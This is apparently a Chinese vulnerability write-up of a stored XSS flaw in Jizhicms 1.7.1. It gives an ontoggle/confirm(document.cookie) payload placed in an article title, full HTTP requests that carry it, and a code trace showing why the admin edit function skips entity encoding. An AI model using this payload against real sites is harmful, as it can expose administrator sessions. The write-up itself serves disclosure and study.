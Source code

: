 Jizhicms 1.7.1 存储XSS漏洞
==========================

一、漏洞简介
------------

二、漏洞影响
------------

Jizhicms 1.7.1

三、复现过程
------------

首先自己注册一个账户然后登陆，在文章标题处插入XSS payload

    payload:<details open>

![1.png](./.resource/Jizhicms1.7.1存储XSS漏洞/media/rId24.png)

管理员登录后台点击编辑且没有修改里面的字符串就保存的话那便会触发XSS漏洞![2.png](./.resource/Jizhicms1.7.1存储XSS漏洞/media/rId25.png)![3.png](./.resource/Jizhicms1.7.1存储XSS漏洞/media/rId26.png)首先看一下在前台发表文章处的请求数据包

    POST /user/release.html HTTP/1.1
    Host: www.0-sec.org:8091
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 187
    Origin: http://www.0-sec.org:8091
    Connection: close
    Referer: http://www.0-sec.org:8091/user/release.html
    Cookie: PHPSESSID=t616fln4me32an09rj6v67vr5b

    ajax=1&isshow=&molds=article&tid=2&title=%3Cdetails+open+ontoggle%3D+confirm(document%5B%60coo%60%2B%60kie%60%5D)%3E&keywords=&litpic=&description=123&body=%3Cp%3E123%3Cbr%2F%3E%3C%2Fp%3E

根据url定位到release函数![4.png](./.resource/Jizhicms1.7.1存储XSS漏洞/media/rId27.png)该函数主要是先检查是否是登录状态然后检查是否存在违禁词汇，其中违禁词汇取的是webconf\[\'mingan\'\]的值，由前篇文章可知数据存放在数据库中然后通过缓存读取相关信息，可以直接输出一下![5.png](./.resource/Jizhicms1.7.1存储XSS漏洞/media/rId28.png)

    过滤的东西和XSS关系不大，主要是涉及到文章敏感汉字之类的，然后被保存到数据库中的时候<>变成了&lt; &gt;

![6.png](./.resource/Jizhicms1.7.1存储XSS漏洞/media/rId29.png)看下是如何进行操作的，继续跟进该函数，通过frparam函数进行操作之后对title进行赋值![7.png](./.resource/Jizhicms1.7.1存储XSS漏洞/media/rId30.png)frparam函数在获取到相关值后调用format\_param函数对数据进行处理，由于传入的int的值为1.所以对传入的参数进行了html实体编码![8.png](./.resource/Jizhicms1.7.1存储XSS漏洞/media/rId31.png)![9.png](./.resource/Jizhicms1.7.1存储XSS漏洞/media/rId32.png)所以在数据库中存储的是进行过实体编码的xss payload最后登入后台看下编辑函数

    POST /admin.php/Article/editarticle.html HTTP/1.1
    Host: www.0-sec.org:8091
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
    Accept: */*
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 340
    Origin: http://www.0-sec.org:8091
    Connection: close
    Referer: http://www.0-sec.org:8091/admin.php/Article/editarticle/id/34.html
    Cookie: PHPSESSID=t616fln4me32an09rj6v67vr5b

    go=1&id=34&title=%3Cdetails+open+ontoggle%3D+confirm(document%5B%60coo%60%2B%60kie%60%5D)%3E&tid=2&seo_title=%3Cdetails+open+ontoggle%3D+confirm(document%5B%60coo%60%2B%60kie%60%5D)%3E&hits=0&keywords=&litpic=&file=&description=123&orders=0&tags=&isshow=0&addtime=2020-05-28+17%3A17%3A39&target=&ownurl=&body=%3Cp%3E123%3Cbr%2F%3E%3C%2Fp%3E

看一下数据中的更新情况，又将\< \>变成了\<\>,所以触发了XSS漏洞![10.png](./.resource/Jizhicms1.7.1存储XSS漏洞/media/rId33.png)定位到漏洞函数editarticle，看到同样调用了frparam函数![11.png](./.resource/Jizhicms1.7.1存储XSS漏洞/media/rId34.png)frparam函数由于没有传入参数会直接返回url中的数据![12.png](./.resource/Jizhicms1.7.1存储XSS漏洞/media/rId35.png)在请求包中可以看到是已经将html实体化编码变成了原字符，所以data取到的数据时没有经过html编码的数据![13.png](./.resource/Jizhicms1.7.1存储XSS漏洞/media/rId36.png)所以在进行update更新操作的时候就会向数据库写入未经html实体化编码的数据

参考链接
--------

> https://xz.aliyun.com/t/7861
